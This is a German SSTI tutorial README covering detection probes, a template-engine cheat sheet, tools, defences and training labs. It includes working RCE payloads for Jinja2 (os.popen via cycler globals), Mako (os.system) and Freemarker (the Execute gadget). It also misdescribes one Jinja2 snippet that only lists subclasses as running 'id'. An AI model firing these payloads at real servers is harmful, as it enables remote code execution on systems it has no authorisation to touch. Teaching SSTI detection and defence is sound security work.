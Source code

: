 # 🧩 SSTI – Server-Side Template Injection

## 📘 Was ist SSTI?

**Server-Side Template Injection (SSTI)** bezeichnet eine Schwachstelle, bei der ein Angreifer serverseitige Template-Engines manipulieren kann, um beliebige Ausdrücke auszuführen. Das passiert, wenn Benutzereingaben ohne Filterung in Templates eingebunden werden.

> 🔥 In vielen Fällen führt SSTI zu **Remote Code Execution (RCE)** auf dem Server.

---

## 🛠️ Typische Template Engines

| Sprache  | Engine             | Erkennbar an…             |
|----------|--------------------|----------------------------|
| Python   | Jinja2, Mako        | `{{7*7}}`, `{% for %}`     |
| PHP      | Twig, Smarty        | `{{ 'PHP' }}`              |
| Java     | Freemarker, Velocity | `${7*7}`, `#set($var=7)`   |
| JavaScript | EJS, Handlebars   | `{{7*7}}`                  |
| Ruby     | ERB, Liquid         | `<%= 7*7 %>`               |

---

## 🔍 Wie erkennt man SSTI?

### Schritt-für-Schritt-Erkennung

1. **Füge einfache Payloads ein:**
   - `{{7*7}}`
   - `${7*7}`
   - `<%= 7*7 %>`
   - `*{{constructor.constructor("alert(1)")()}}*` (JS)

2. **Prüfe auf gerenderte Ergebnisse:**
   - Wird `49` angezeigt? → **SSTI vorhanden**
   - Wird der Ausdruck als Text zurückgegeben? → vermutlich keine SSTI

---

## 🧪 Typische Test-Payloads

| Payload       | Bedeutung                      |
|---------------|-------------------------------|
| `{{7*7}}`      | Arithmetischer Test           |
| `{{self}}`     | Zugriff auf interne Objekte  |
| `{{config}}`   | Zugriff auf Konfiguration     |
| `${{7*7}}`     | Freemarker Payload            |
| `<%= 7*7 %>`   | Ruby ERB                      |

---

## 🔥 Exploits: Jinja2 RCE (Python)

```jinja2
{{''.__class__.__mro__[1].__subclasses__()}}
```
→ Führt id-Befehl aus!

### Kürzer über cycler, joiner:

```jinja2
{{cycler.__init__.__globals__.os.popen('id').read()}}
```

---

## 📦 SSTI Cheat-Sheet: Template Engines

| Engine     | Ausdruck                                                   | RCE möglich?  |
| ---------- | ---------------------------------------------------------- | ------------- |
| Jinja2     | `{{7*7}}`, `{{config}}`                                    | ✅             |
| Mako       | `${7*7}`, `${os.system('ls')}`                             | ✅             |
| Twig       | `{{ 7*7 }}`                                                | eingeschränkt |
| Freemarker | `${7*7}`, `${"freemarker.template.utility.Execute"?new()}` | ✅             |
| ERB        | `<%= 7*7 %>`                                               | ✅             |

---

## 🧰 Tools zur Unterstützung

| Tool       | Beschreibung                            |
| ---------- | --------------------------------------- |
| Burp Suite | Manuelle & automatische Tests           |
| tplmap     | Automatisierte SSTI-Erkennung + Exploit |
| WFuzz      | Fuzzing von Parametern                  |
| SSTI-Lab   | Eigene Trainingsumgebung (GitHub)       |

---

## 🛡️ Schutzmaßnahmen

| Maßnahme                             | Beschreibung                           |
| ------------------------------------ | -------------------------------------- |
| Eingabe validieren                   | Nur erlaubte Zeichen zulassen          |
| Escaping                             | `{% autoescape %}` verwenden           |
| Logik & Templates trennen            | Keine Logik im Template verarbeiten    |
| Keine Userdaten im Template          | Niemals unescaped einfügen             |
| Template Engine sicher konfigurieren | z. B. `sandbox`, kein Zugriff auf eval |


---

## 🧠 Beispiele aus der Praxis

| Beispiel                               | Anfälligkeit |
| -------------------------------------- | ------------ |
| Feedback-Form mit Template-Output      | SSTI         |
| Benutzername wird ins Template geladen | SSTI         |
| Fehlermeldungen mit dynamischem Inhalt | SSTI möglich |

---

## 🎓 Lerne & Übe SSTI

| Plattform        | Inhalt                         |
| ---------------- | ------------------------------ |
| TryHackMe        | SSTI Room (z. B. „Injection“)  |
| PortSwigger Labs | Web Security Academy           |
| HackTheBox       | Machines: „Jeeves“, „Bashed“   |
| DVWA/bWAPP       | Simulierte SSTI-Schwachstellen |


---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---


## 🔗 Weiterführende Links

- [PayloadsAllTheThings – SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [PortSwigger SSTI Labs](https://portswigger.net/web-security/server-side-template-injection)
- [tplmap Tool](https://github.com/epinna/tplmap)
- [OWASP SSTI Guide](https://owasp.org/www-community/attacks/Server-Side_Template_Injection)

